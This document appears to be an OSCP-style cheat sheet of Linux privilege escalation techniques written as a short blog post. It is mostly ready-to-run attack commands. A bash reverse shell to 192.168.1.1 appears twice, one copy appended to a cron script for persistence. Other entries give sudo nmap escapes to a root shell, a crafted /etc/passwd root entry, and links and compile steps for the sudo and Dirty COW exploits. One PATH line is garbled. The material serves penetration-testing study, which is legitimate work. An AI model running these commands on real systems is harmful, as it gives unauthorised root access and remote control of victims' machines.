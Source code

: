 ```yaml
---
title: Linux Privilege Escalation
author: linatl
date: "2021-03-23 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Upgrading Shells
```
Upgrade sh to bash using python (2 or 3)
> python -c 'import pty; pty.spawn("/bin/sh")'
> python -c 'import pty; pty.spawn("/bin/bash")'

Correcting the $PATH variable for sh / bash
> export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin/usr/bin:/sbin:/binusr/local/sbin:/usr/local/bin:/usr/sbin:/bin

Upgrading from rbash:
https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/
https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/

Start bash instance:
> /bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1
```

###### Sudo -l
```
List user privileges for sudo
> sudo -l

Nmap interactive
> sudo nmap --interactive
> nmap> !bash
```

###### crontabs
```
enumerating crontab:
> ls -al /etc/cron* /etc/at*
> cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/> dev/null | grep -v "^#"

Add a line to a file:
> echo "/bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1" >> cleanup.sh
```

###### Writable /etc/passwd or /etc/shadow
```
Make the salt value of a password:
> openssl passwd -1 -salt ignite password
Add this line to /etc/passwd (get immediate root shell)
username:$1$ignite$tTBj87JPlfWJIFioYSmpC0:0:0:root:/root:/bin/bash
```

###### GTFObins
```
https://gtfobins.github.io/
```

###### CVE-2021-3156 (Sudo exploit)
```
64bit
https://github.com/worawit/CVE-2021-3156
```

####### Compiling C Exploits
```
> gcc exploit.c -o exploit
Installing gcc libraries for cross compiling
> sudo apt-get install gcc-multilib
> gcc -m32 -Wall exploit.c -o exploit
```

###### Dirtyc0w
```
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
Note: the /proc/self/mem file is not writable on some RHEL/CentOS versions.
```
